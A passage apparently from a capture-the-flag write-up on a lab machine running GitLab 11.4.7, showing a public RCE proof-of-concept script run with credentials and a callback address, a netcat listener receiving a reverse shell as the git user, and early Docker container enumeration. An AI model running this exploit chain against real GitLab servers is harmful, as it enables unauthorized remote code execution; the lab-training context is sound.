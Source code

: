 

I'll also find the user flag in `/home/dude`:



    git@gitlab:/home/dude$ cat user.txt
    e1e30b05************************



### Automated Alternative

There's a bunch of POCs out there that will do that exploit chain for
you. [This one](https://github.com/ctrlsam/GitLab-11.4.7-RCE) worked
well. I'll download the Python script, and run it giving my username and
password, the url for the repo (it appends the port 5080 for me), and
the local IP and port to catch the shell on:



    oxdf@parrot$ python3 gitlab-sploit.py -u 0xdf -p 0xdf0xdf -g http://10.10.10.220 -l 10.10.14.8 -P 443
    [+] authenticity_token: mxr9+YkkIkgYiVSMluglB4tReW05mHUtDj8zz279uDJfOn+KaX3qo9H7lA2iAQbdBTAj89wavowpUxm2SEA7QQ==
    [+] Creating project with random name: project7726
    [+] Running Exploit
    [+] Exploit completed successfully!



It works and I get a shell:



    oxdf@parrot$ nc -lvnp 443
    listening on [any] 443 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.220] 56004
    id
    uid=998(git) gid=998(git) groups=998(git)



## Shell as root \[Container\]

### Enumeration

#### Docker

There's a few indications that I'm in a Docker container. For one,
there's very few commands on this host. `ifconfig` and `ip` are both not
present. There's also a `.dockerenv` file in the system root.

#### Interesting Files

There's nothing interesting beyond the flag in `/home/dude`. Looking
around, there's a couple things in the `/opt` directory:



    git@gitlab:/opt$ ls
    backup  gitlab
